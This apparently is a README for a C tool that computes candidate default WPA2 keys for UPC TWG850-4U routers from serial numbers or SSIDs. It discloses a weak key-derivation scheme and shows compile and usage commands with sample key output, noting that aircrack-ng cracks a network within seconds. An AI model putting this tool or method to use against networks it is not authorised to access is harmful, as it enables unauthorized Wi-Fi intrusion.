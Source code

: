 # TWG850-4U UPC%06d WPA2 keys

Same as in the [Technicolor TC7200.U](https://haxx.in/upc-wifi/), the Wi-Fi SSID and
password are derived from the device's serial number.
However, for the TWG850-4U, there are around 8000-12000
possible WPA2 keys for each UPC%06d network, as opposed
to ~20 keys in the TC7200.U - still good enough for
a dictionary attack though: `aircrack-ng` takes less than 5 seconds.

The WiFi channel number is also derived from the serial
number, but in such a way that it's guaranteed to be either
channel 1 or 6 (or 11, but the algorithm used almost never
generates channel 11). The distribution is 1/3 channel 1,
and 2/3 channel 6. The channel number printed on the bottom
label is _not_ used!

`$ cc upc-twg850.c -o upc-twg850`

Print WPA2 key and SSID for serial number `00939-907201352`

```
$ ./upc-twg850 00939907201352
00939-907201352  6   UPC009038  AALOMMAA
```
Get serial numbers and WPA2 keys for SSID `UPC009065`

<pre>
$ ./upc-twg850 UPC009065
[...]
00939-907002034  1   UPC009065  IQVCGOKQ  
00939-907101693  6   UPC009065  IUQQQCBY  
<b>00939-907201352  6   UPC009065  AALOMMAA</b>
00939-907301011  1   UPC009065  QGGQKWBE  
00939-907400670  6   UPC009065  EIMDZWKS
[...]
</pre>

Same as above, but limit search to channel 6

<pre>
$ ./upc-twg850 UPC009065 6
[...]
00939-906500332  6   UPC009065  BDMWZWKE  
00939-907101693  6   UPC009065  IUQQQCBY  
<b>00939-907201352  6   UPC009065  AALOMMAA</b>
00939-907400670  6   UPC009065  EIMDZWKS  
00939-907500329  6   UPC009065  CSAAAAYZ
[...]
</pre>


